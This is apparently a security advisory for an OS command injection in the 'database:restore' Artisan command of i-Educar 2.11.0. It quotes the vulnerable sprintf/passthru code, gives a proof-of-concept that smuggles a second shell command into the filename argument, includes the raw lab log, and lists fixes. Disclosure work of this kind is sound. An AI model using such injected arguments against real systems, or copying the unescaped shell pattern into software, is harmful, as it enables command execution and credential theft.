

# OS command injection in `php artisan database:restore`

- **Product:** i-Educar 2.11.0 (latest release, tag `2.11.0`) (portabilis/i-educar)
- **Type / CWE:** CWE-78 Improper Neutralization of Special Elements used in an OS Command ('OS Command Injection') — https://cwe.mitre.org/data/definitions/78.html
- **Severity:** `CVSS:3.1/AV:L/AC:L/PR:L/UI:N/S:C/C:H/I:H/A:H` = **8.8 High** (estimated from the vector, not an upstream score)
- **Affected version:** 2.11.0 (latest release, tag `2.11.0`)
- **Endpoint(s):** CLI `php artisan database:restore {database} {filename}` — parameter(s): `database`, `filename`
- **Authentication:** local CLI access (shell on the host/container, cron job, CI runner or any process able to invoke artisan)
- **Status:** VERIFIED against a local i-Educar 2.11.0 lab (2026-09-10)

## Summary

`DatabaseRestoreCommand` builds two shell command lines by interpolating the
`database` and `filename` Artisan arguments into a format string with
`sprintf()` and executes them with `passthru()`. Neither `escapeshellarg()` nor
`escapeshellcmd()` is used, so a `filename` value containing shell
metacharacters (`;`, `#`, `>`, ...) breaks out of the intended `pg_restore`
invocation and runs arbitrary commands inside the `ieducar-php` container as
the `ieducar` user (uid 1000).

The same flaw exists in the `database` argument of `dropAndCreateDatabase()`
(interpolated twice), so both arguments are injection points.

## Root cause

`app/Console/Commands/DatabaseRestoreCommand.php:82`

```php
private function restoreDatabaseUsingBackupFile($database, $filename)
{
    $definition = 'pg_restore --host=%s --port=%s --username=%s --dbname=%s %s --no-privileges --no-owner';

    $command = sprintf(
        $definition,
        $this->getHost(),
        $this->getPort(),
        $this->getUser(),
        $database,
        $filename
    );

    passthru($command);
}
```

`app/Console/Commands/DatabaseRestoreCommand.php:59` has the same pattern for
the `database` argument:

```php
$definition = 'echo "drop database if exists %s; create database %s;" | psql -h %s -p %s -U %s';
```

`handle()` (line 103) passes the raw Artisan arguments straight through:

```php
$database = $this->argument('database');
$filename = $this->argument('filename');
```

Because the whole command is one string handed to a shell, `filename` is data
that is interpreted as shell syntax. `escapeshellarg($filename)` (or passing
the arguments to a process API that does not invoke a shell) would keep it as
a single argument.

## Proof of concept

1. Bring up the local lab and make sure `ieducar-php` is running.
2. Run the PoC (read-only payload: `id` is written to a marker file inside the
   container; the throwaway `i_explorar_poc01` database is dropped again at the
   end):

   ```bash
   python3 i-explorar.py            # pick [01]
   # or standalone:
   python3 vulns/01-db-restore-command-injection/poc.py --target http://127.0.0.1:8080
   ```

   The command actually executed for the injection is:

   ```bash
   docker compose exec -T php php artisan database:restore i_explorar_poc01 \
     '/tmp/i_explorar_missing.sql; id > /tmp/i_explorar_poc01_<pid>.txt #'
   ```

3. Expected result: `database:restore` first drops/creates the throwaway
   database, then the shell runs `id` after `pg_restore` fails, and the marker
   file contains the result of `id`:

   ```
   uid=1000(ieducar) gid=1000(ieducar) groups=1000(ieducar)
   ```

## Evidence

Raw output of the PoC run against the 2.11.0 release (`evidence/run-20260911T001714Z.log`), pasted
verbatim:

```
# i-explorar raw evidence
# started_at: 2026-09-11T00:17:14.211802+00:00
# host: -03
# target: http://127.0.0.1:8080
# lab: /home/pollo/disclosures/i-explorar/lab/i-educar
# payload filename: '/tmp/i_explorar_missing.sql; id > /tmp/i_explorar_poc01_345740.txt #'
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T php rm -f /tmp/i_explorar_poc01_345740.txt

--- output ---
(empty)
--- end output ---
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T php php artisan database:restore i_explorar_poc01 '/tmp/i_explorar_missing.sql; id > /tmp/i_explorar_poc01_345740.txt #'

--- output ---
DROP DATABASE
CREATE DATABASE
NOTICE:  database "i_explorar_poc01" does not exist, skipping
pg_restore: error: could not open input file "/tmp/i_explorar_missing.sql": No such file or directory
--- end output ---
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T php cat /tmp/i_explorar_poc01_345740.txt

--- output ---
uid=1000(ieducar) gid=1000(ieducar) groups=1000(ieducar)
--- end output ---
$ docker compose --project-directory /home/pollo/disclosures/i-explorar/lab/i-educar -f /home/pollo/disclosures/i-explorar/lab/i-educar/docker-compose.yml exec -T postgres psql -U ieducar -d ieducar -c 'DROP DATABASE IF EXISTS i_explorar_poc01;'

--- output ---
DROP DATABASE
--- end output ---
# finished_at: 2026-09-11T00:17:16.065850+00:00
```

## Screenshots



Caption: console capture of the PoC run — the injected `id` command writes
`uid=1000(ieducar) ...` to the marker file inside `ieducar-php`.

## Impact

An actor who can influence the `filename` (or `database`) argument — a
deployment script, cron job, CI pipeline or any wrapper around artisan — gains
command execution inside the PHP container with the privileges of the
`ieducar` user. That allows reading `.env`/database credentials, modifying or
deleting files and databases, installing persistence, and pivoting to the
Postgres/Redis containers on the compose network. Attack vector is local,
which is why the score is 8.8 rather than critical.

Note: `pg_restore` itself is executed before the injected command; the attacker
does not need a real backup file because the injected command runs regardless
of `pg_restore` failing.

## Timeline

- 2026-09-10: local reproduction against the i-explorar 2.11.0 lab (this advisory)
- not yet reported to the maintainer — no remote or external contact was made
  from this repository

## Mitigation

- Replace `passthru()` with an API that executes a program with an argument
  vector (`Symfony\Component\Process\Process` with an array, or `proc_open()`
  with an array).
- If a shell string is unavoidable, wrap both arguments with
  `escapeshellarg()` and validate `database` against `^[A-Za-z0-9_]+$`.
- Do not run Artisan restore commands with a database superuser account; the
  Docker default (`ieducar`) is already the least-privilege option for this
  lab but still reaches every schema used by the application.

## References

- Upstream repository: https://github.com/portabilis/i-educar
- Upstream security policy: https://github.com/portabilis/i-educar/security/policy
- CWE-78: https://cwe.mitre.org/data/definitions/78.html
- This advisory (canonical URL): https://github.com/i-explorar/i-explorar/blob/main/vulns/01-db-restore-command-injection/README.md
